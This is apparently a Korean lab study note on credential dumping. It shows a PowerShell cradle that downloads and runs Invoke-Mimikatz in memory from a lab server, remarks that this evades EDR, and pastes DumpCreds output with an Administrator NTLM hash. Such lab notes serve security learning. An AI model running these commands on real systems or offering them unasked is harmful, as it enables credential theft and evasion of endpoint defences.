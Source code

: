 2. powershell 활용한 다운로드 
	- 새로운 파워쉘을 열어서 똑같이 입력한다고 동작 되지는 않음 
	- 그리고 모든 파일을 찾아봐도 해당 설치 스크립트를 찾을 수 없음 왜냐면 메모리상에 올린 것 이기 때문에 
	- 따라서 EDR이나 이런 프로그램들이 찾기가 더 어려움 
```
// 원격에 있는 파워쉘 스크립트를 메모리상으로 불러와 실행 가능 !
IEX(New-Object Net.Webclient).DownloadString('http://10.8.0.15/Invoke-Mimikatz.ps1')

// 
서버 open 한 쉘 창에서 get 한내용을 확인가능 
해당 파워 쉘에서 어떤 결과가 보이지는 않지만 적용 됨 
적용 된 내용을 확인 

Invoke-Mimikatz 해당 함수는 방금 설치한 파워쉘 스크립트에만 있는 함수 
//

Get-Help Invoke-Mimikatz  
update 는  N 

해당 함수 호출 가능 확인 
```

3. Invoke-Mimikatz -DumpCreds 
	- Invoke-Mimikatz 등 함수를 어디서 확인가능? 구글 또는 
		설치한 파일을 vim으로 열어보면 확인 가능 
	- 또는 파워쉘에서 Get-help Invoke-Mimikatz
```
// 현재 호스트에 존재한는 계정의 NT해시된 비밀번호 확인 가능 
Invoke-Mimikatz -DumpCreds 

// 결과 
Session           : RemoteInteractive from 2                                                                                       User Name         : Administrator


* Username : Administrator                                                                                                         * Domain   : EC2AMAZ-3T6AG2T                                                                                                       * NTLM     : 2b576acbe6bcfda7294d6bd18041b8fe                                                                                      * SHA1     : e30d1c18c56c027667d35734660751dc80203354                                                                              * DPAPI    : e30d1c18c56c027667d35734660751dc 

```

4. Invoke-Mimikatz 사용법
```
Get-help Invoke-Mimikatz

Get-help -Detailed Invoke-Mimikatz

Get-help -Example Invoke-Mimikatz
```